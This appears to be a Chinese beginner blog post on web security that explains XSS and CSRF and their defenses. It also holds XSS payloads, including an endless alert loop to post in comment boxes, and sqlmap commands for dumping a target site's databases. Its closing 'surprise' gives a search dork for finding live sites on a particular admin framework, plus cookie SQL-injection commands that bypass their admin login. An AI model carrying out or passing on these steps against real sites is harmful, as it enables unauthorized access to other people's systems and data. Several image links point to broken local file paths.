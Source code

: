 ## 初识web安全之XSS与CRSF

#### 一、XSS的定义与分类

##### 1.1、XSS定义：

跨站脚本攻击（Cross Site Scripting ）攻击者通过非法的html标签或者javascript代码，从而控制浏览器；

##### 1.2、XSS的分类：大致分为三类DOM型 、反射型、存储型

一、DOM xss：即dom对象，允许程序和脚本动态的访问和更新文档内容，样式，结构等，触发xss完全依靠浏览器的dom解析们可以认为完全是客户端的行为，如（虚假表单，收录私人信息）

二、反射型xss:非持久性的xss，即xss代码直接出现在url中，最后提交到服务器，服务器解析这个xss代码，最后被浏览器执行，如利用脚本获取cookie信息，然后偷偷的发送恶意请求ps:(小广告别乱点)

三、存储型 xss：又称为持久性XSS（最危险的跨站脚本），具有更高的隐蔽性，凡是允许用户存储数据的web程序都可能存在存储型XSS漏洞，当攻击者提交一段XSS代码后，被服务器端接收并存储，当所有浏览者访问某个页面时都会被XSS，其中最典型的例子就是留言板。

##### 1.3、XSS的一些常见案例

在评论区的富文本框中写上写小玩意儿试试：

```
<font size =“100”color=“red”> 来啊!造作啊!</font>
<script>while(true){alert(‘来啊，造作啊！’)}</script> //如下图

```

![1539184911561](C:\Users\JAMESX~1\AppData\Local\Temp\1539184911561.png)

![1539184994661](C:\Users\JAMESX~1\AppData\Local\Temp\1539184994661.png)

##### 1.4、XSS攻击的防御 

其实只要在有数据输入的地方就有存在XSS的风险，所以防范方法大概如下

1、后台程序httpOnly去设置cookie后，js的脚本就无法读取cookie的信息，如koa 中ctx.cookies.set(name,value,{httpOnly:true})

2、对输入的数据格式进行检查，前后端都要做。在某些情况下不能严格的过滤是，需要对标签进行转换，如 <  &lt; > &gt &lt等

总结：其实在谷歌浏览器是自动屏蔽了xss的攻击。例如我们在url中添加

```
？XSS=<script>while(true){alert(“来啊，造作啊”)}</script>）
```

这个浏览器会自动认为是不合法的。在安全方面其实前端和后端应该协同起来，对用户输入的内容校验。尽量去避免自己的网站作品被黑客轻易的攻下。

#### 二、CSRF的定义与XSS的区别

##### 2.1、CSRF的定义：

跨站点请求伪造（cross-site Request Forgeries）,在用户不知情的情况下，冒充用户发起一些恶意请求。例如（修改用户信息，删除评论，发起转账等行为

##### 2.2、CSRF和XSS的区别：

CSRF通常是由XSS实现的，本质上讲，XSS是因为输入的内容被恶意代码被注入，CSRF：则是因为服务器过度相信用户的会话cookie，因为cookie是具有同源策略，点击小广告，然后你的cookie就别携带到了黑客的界面，界面里面怎么弄那就是他的领地了，所以小广告别乱点。 

##### 2.3、一些CSRF的防御策略

1、验证码：强制用户进行交互才能完成请求，但是用户体验差，比如你的小飞机验证

2、尽量使用post，至少请求内容不能随意被篡改。

3、允许域名的白名单，其他都屏蔽掉。

4、推荐和常用的方法：token后端随机生成token，把token保存到session,前端携带token，后端验证，但是网站本身存在xss的漏洞，这都是笑话

##### 三、一些常用的爆破工具

##### 3.1、sqlmap,这个在github上有资源。环境python

使用方法：寻找到你的目标网站，一般是什么PHP?id=12**这一类的

 python sqlmap.py -u "http://[你的站点域名]/about.php?id=1*" --batch 

--batch –current-db  //查看数据库的版本信息

--batch –D sailodln_main –tables  //查看表名

--batch -D sailodln_main -T  表名 –columns//查看表中的字段

--force-ssl //忽略https

--threads=0~10 //开启多线程模式

##### 3.2、 WebRobot，作用进行端口扫描，C段，注入扫描等 

![1539186211264](C:\Users\JAMESX~1\AppData\Local\Temp\1539186211264.png)

##### 4、小惊喜

1、百度搜索：inurl:szwyadmin/login.asp” （目标网站）

在控制台中输入

1、 document.cookie="adminuser="+escape("'or'='or’”)

2、 document.cookie="adminpass="+escape("'or'='or’”)

3、 document.cookie="admindj="+escape("1")

 然后 重新进入该网站。并把地址栏的 login.asp 改为 admin_index.asp，回车一下我们就进入后台管理了！ps:(利用了框架中自带的弊端，这也许就是java和其他后台语言相比能够一路高歌猛进的一部分原因吧！)



